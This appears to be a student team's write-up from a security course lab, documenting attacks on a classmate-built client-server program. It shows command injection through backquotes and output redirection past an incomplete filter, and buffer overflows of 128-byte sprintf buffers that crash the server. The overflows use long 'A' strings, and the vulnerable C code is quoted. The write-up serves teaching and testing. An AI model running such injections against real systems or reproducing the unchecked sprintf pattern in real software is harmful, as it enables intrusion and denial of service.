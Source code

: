 ## Team 4

### Command Injection

* Using echo command. Only | and ; are filtered to check for multiple commands. We can use backquotes.
```
echo `uname -a`
Linux mc02.cs.purdue.edu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 
UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

* Using ping command. The redirect operators are not filtered. We can use this to overwrite writable files.

```
ping google.com>vulnerable_file
ls
total 10480
-rwxr-x--- 1 njaganna njaganna 5309312 Mar 25 08:59 client
drwxrwxr-x 2 njaganna njaganna    4096 Mar 14 19:49 include
-rw-rw-r-- 1 njaganna njaganna    2440 Mar 14 19:49 Makefile
drwxr-x--- 6 njaganna njaganna    4096 Mar 25 08:59 obj
-rwxr-x--- 1 njaganna njaganna 5391136 Mar 25 08:59 server
-rw-r----- 1 njaganna njaganna     385 Mar 25 08:58 sploit.conf
drwxrwxr-x 6 njaganna njaganna    4096 Mar 14 19:49 src
-rw-r----- 1 njaganna njaganna     286 Mar 25 09:49 vulnerable_file
```

### Buffer Overflow

* The ping command is constructed using a buffer of size 128. We can overflow this by giving a hostname which exceeds the size.

>Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```C
char pingcmd[128];
sprintf(pingcmd, "ping %s", host.c_str());

Client:
ping first
ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAA 

Server:
ping: unknown host first
Segmentation fault (core dumped)
mc02 60 $ 
```

* Any misc command is constructed by using a buffer of size 128. First it changes directory and then executes command. So if we give a long parameter for the alias command, the server crashes as we overflow the return address.
>Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```C
char c_cmd[128];
sprintf(c_cmd, "cd %s && %s",
        getSession().getCurrentDir().c_str(),
        _cmd.c_str());

Client:
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA

Server: 
mc02 60 $ ./server
Sploit Server Starting...
Segmentation fault (core dumped)
mc02 61 $
```

### Directory traversal

* There is no check of directory traversal as there are no directories being created.
